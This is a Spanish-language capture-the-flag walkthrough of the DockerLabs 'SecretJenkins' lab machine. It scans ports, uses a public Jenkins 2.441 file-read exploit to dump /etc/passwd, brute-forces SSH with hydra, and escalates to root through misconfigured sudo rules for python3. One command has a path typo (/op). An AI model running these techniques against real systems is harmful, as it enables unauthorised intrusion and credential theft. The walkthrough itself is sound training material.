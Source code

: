 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "SecretJenkins".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh secretjenkins.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos, el 22 (SSH) y el 8080
```
Discovered open port 8080/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
```
Si ponemos en el navegador "172.17.0.2:8080" nos sale una panel de login en Jenkins.
Lo primero que vamos a mirar, es la version de Jenkins que esta corriendo por si es posible que haya alguna vulnerabilidad, y como en la propia pagina no vemos nada, vamos a mirar mediante "whatweb" a ver si conseguimos informacion adicional:
```
whatweb 172.17.0.2:8080
```
Y obtenemos informacion que nos dice que es la version 2.441 de Jenkins.
Ahora es momento de usar a nuestro amigo Google o de buscar en "searchsploit" por si hubiese alguna vulnerabilidad:
```
searchsploit jenkins 2.441
```
Y obtenemos:
```
------------------------------------------------ --------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ --------------------------------
Jenkins 2.441 - Local File Inclusion            | java/webapps/51993.py
------------------------------------------------ --------------------------------
Shellcodes: No Results
```
Lo primero que hacemos es un "locate 51993.py" recibiendo como resultado:
```
/usr/share/exploitdb/exploits/java/webapps/51993.py
```
Ahora nos traemos el archivo a nuestro directorio de trabajo y, en mi caso, le cambio el nombre:
```
cp /usr/share/exploitdb/exploits/java/webapps/51993.py .

mv 51993.py jenkis_LFI.py
```
Ahora lo ejecutamos pero vemos que no nos sale nada, aunque nos dice que hay que ponerle la "url" para que funcione bien, asi que lo ejecutamos de forma correcta esta vez:
```
python3 jenkis_LFI.py 
usage: jenkis_LFI.py [-h] -u URL [-p PATH]
jenkis_LFI.py: error: the following arguments are required: -u/--url

❯ python3 jenkis_LFI.py -u http://172.17.0.2:8080/
```
Y en esta ocasion todo es correcto, preguntandonos que fichero es el que queremos descargar.
En este caso, lo que hemos escrito ha sido "/etc/passwd", para poder encontrar los usuarios de esta maquina:
```
Press Ctrl+C to exit
File to download:
> /etc/passwd

systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash    <=== Usuario
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash   <=== Usuario
```
Bien, parece que tenemos dos usuarios: "bobby" y "pinguinito".
Es el momento de probar ambos con HYDRA para ver si nos encuentra las contraseñas de alguno de ellos:
```
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Vemos que con "bobby" nos encuentra una contraseña que es "chocolate" por lo que vamos a entrar por SSH a ver si todo va bien:
```
ssh bobby@172.17.0.2
```
Tras aceptar las "fingerprints" escribiendo "yes" y poniendo la contraseña que hemos obtenido con HYDRA, estamos dentro:
```
bobby@8882fd45974e:~$ whoami
bobby

bobby@8882fd45974e:~$ 
```
Vale, ahora toca intentar una escalada de privilegios, por lo que escribiremos "sudo -l" obteniendo el siguiente mensaje:
```
bobby@8882fd45974e:~$ sudo -l
Matching Defaults entries for bobby on 8882fd45974e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User bobby may run the following commands on 8882fd45974e:
    (pinguinito) NOPASSWD: /usr/bin/python3
    
bobby@8882fd45974e:~$ 
```
Vemos que podemos ejecutar un archivo de Python como usuario pinguinito, asi que vamos a ejecutar una bash. En mi caso, queria crear un archivo "jenkins.py" pero no he podido porque no tenemos acceso a "nano", asi que lo que he hecho ha sido escribir:
```
sudo -u pinguinito /usr/bin/python3
```
Y ahora si, escribimos:
```
import os
os.system("bash")
```
Y si ahora ponemos "whoami" otra vez, vemos que somos el usuario "pinguinito":
```
pinguinito@8882fd45974e:/home/bobby$ whoami
pinguinito

pinguinito@8882fd45974e:/home/bobby$
```
De nuevo, vamos a poner un "sudo -l" para ver si podemos escalar privilegios asi:
```
pinguinito@8882fd45974e:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 8882fd45974e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 8882fd45974e:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    
pinguinito@8882fd45974e:/home/bobby$
```
Esta vez, vemos que podemos ejecutar el archivo "/opt/script.py" sin contraseña, aun asi, empezaremos por dar permisos escritura al archivo "script.py".
Podriamos poner bien:
```
chmod 744 /opt/script.py
	-rwxr--r-- 1 pinguinito root     272 May 11 08:22 script.py
	
O BIEN:

chmod 777 /opt/script.py
	-rwxrwxrwx 1 pinguinito root     272 May 11 08:22 script.py
```
Independientemente cual elijamos y ya con los permisos necesarios, escribimos:
```
echo 'import os; os.system("bash")' > /op/script.py
```
Lo que sustituira el contenido del archivo por esto que acabamos de introducir.
Por ultimo, ejecutamos el archivo con el comando:
```
pinguinito@8882fd45974e:/$ sudo /usr/bin/python3 /opt/script.py

root@8882fd45974e:/# whoami
root

root@8882fd45974e:/#
```
Y listo, tal y como vemos al poner "whoami", somos el usuario "root", por lo que la maquina estaria terminada.
